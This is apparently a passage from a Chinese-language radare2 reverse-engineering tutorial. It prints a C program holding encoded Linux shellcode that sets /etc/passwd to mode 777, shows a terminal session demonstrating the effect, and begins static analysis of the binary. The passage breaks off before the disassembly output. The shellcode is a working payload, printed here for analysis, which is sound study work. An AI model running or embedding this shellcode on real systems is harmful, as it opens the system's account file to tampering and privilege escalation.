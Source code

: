     /*
    root@localhost# ls -la /etc/passwd
    -rw-r--r-- 1 root root 1869 2010-05-08 15:53 /etc/passwd
    root@localhost# gcc -o polymorphic_chmod polymorphic_chmod.c
    chmod.c: In function ‘main’:
    chmod.c:37: warning: incompatible implicit declaration of built-in function ‘strlen’
    root@localhost# ./polymorphic_chmod
    Length: 64
    root@localhost# ls -la /etc/passwd
    -rwxrwxrwx 1 root root 1869 2010-05-08 15:53 /etc/passwd
    root@localhost# chmod 644 /etc/passwd
    root@localhost# ls -la /etc/passwd
    -rw-r--r-- 1 root root 1869 2010-05-08 15:53 /etc/passwd
    */
    
    #include <stdio.h>
    #include <string.h>
    
    char shellcode[] =
    	"\xeb\x11\x5e\x31\xc9\xb1\x27\x80\x6c\x0e\xff\x35\x80\xe9\x01"
    	"\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x20\x4a\x66\xf5\xe5\x44"
    	"\x90\x66\xfe\x9b\xee\x34\x36\x02\xb5\x66\xf5\xe5\x36\x66\x10"
    	"\x02\xb5\x1d\x1b\x34\x34\x34\x64\x9a\xa9\x98\x64\xa5\x96\xa8"
    	"\xa8\xac\x99";
    
    int main(void)
    {
    	fprintf(stdout,"Length: %zu\n",strlen(shellcode));
    	(*(void(*)()) shellcode)();
         
    return 0;
    }

评论中的描述声称代码在`/etc/passwd`中设置文件权限为`777`，但是你乍一看肯定看不出来。我们只能看到一个初始化为16进制的字节数组。接着被投射给函数指针然后调用。

## 实用Radare2分析

我们如何弄清程序做了什么？我们可以构建并且运行它，但我不会。因为它可能移除我的家目录。我们实用radare2静态检测它。

首先构建二进制文件

    ~/Work/project/reverse ⮀ cc -o shellcode polymorphic_chmod_etc_passwd_777.c

接着载入到radare2中：

     ~/Work/project/reverse ⮀ r2 ./shellcode 
     -- In soviet Afghanistan you debug radare2!
    [0x00400520]> 

我们没有加`-d`参数，这样可以以静态分析模式运行，而不是实用radare2内建的调试器。现在radare已经就绪，让我们开始输入命令。

radare2的命令通常都非常短。键入`?`回车就会进入帮助概述。若问号后面跟着命令，就会给出命令使用的详细信息。

我们首先得定位字节字符串。因为二进制文件没有被精简(stripped)，有幸保留了`main`函数的虚拟地址。Radare2使用`flags`的概念标记二进制文件中的有用位置。尝试键入`f`来得到标记列表。main函数将被标记为`sym.main`。

我们使用`pd`命令反汇编：
